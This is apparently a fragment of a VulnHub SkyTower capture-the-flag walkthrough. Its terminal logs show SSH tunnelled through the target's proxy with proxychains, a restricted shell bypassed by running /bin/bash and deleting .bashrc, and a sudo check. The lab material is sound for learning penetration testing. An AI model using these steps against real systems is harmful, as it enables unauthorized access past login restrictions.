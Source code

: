 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
proxychains ssh john@192.168.56.105 /bin/bash
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-192.168.56.105:3128-<><>-192.168.56.105:22-<><>-OK
john@192.168.56.105's password: 
id
uid=1000(john) gid=1000(john) groups=1000(john)
whoami
john

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Removing the .bashrc file from the home directory of john

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~/vulnhub/skytower# proxychains ssh john@192.168.56.106 /bin/bash
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-192.168.56.106:3128-<><>-192.168.56.106:22-<><>-OK
The authenticity of host '192.168.56.106 (192.168.56.106)' can't be established.
ECDSA key fingerprint is SHA256:QYZqyNNW/Z81N86urjCUIrTBvJ06U9XDDzNv91DYaGc.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.56.106' (ECDSA) to the list of known hosts.
john@192.168.56.106's password: 
ls -al
total 24
drwx------ 2 john john 4096 Jun 20  2014 .
drwxr-xr-x 5 root root 4096 Jun 20  2014 ..
-rw------- 1 john john    7 Jun 20  2014 .bash_history
-rw-r--r-- 1 john john  220 Jun 20  2014 .bash_logout
-rw-r--r-- 1 john john 3437 Jun 20  2014 .bashrc
-rw-r--r-- 1 john john  675 Jun 20  2014 .profile
rm .bashrc
ls -al
total 20
drwx------ 2 john john 4096 Oct  2 06:40 .
drwxr-xr-x 5 root root 4096 Jun 20  2014 ..
-rw------- 1 john john    7 Jun 20  2014 .bash_history
-rw-r--r-- 1 john john  220 Jun 20  2014 .bash_logout
-rw-r--r-- 1 john john  675 Jun 20  2014 .profile
exit

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Loggin in without /bin/bash -  just normal ssh


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~/vulnhub/skytower# proxychains ssh john@192.168.56.106
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-192.168.56.106:3128-<><>-192.168.56.106:22-<><>-OK
john@192.168.56.106's password: 
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Jun 20 07:41:08 2014
john@SkyTower:~$ id
uid=1000(john) gid=1000(john) groups=1000(john)
john@SkyTower:~$ sudo -l
[sudo] password for john: 
Sorry, user john may not run sudo on SkyTower.
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~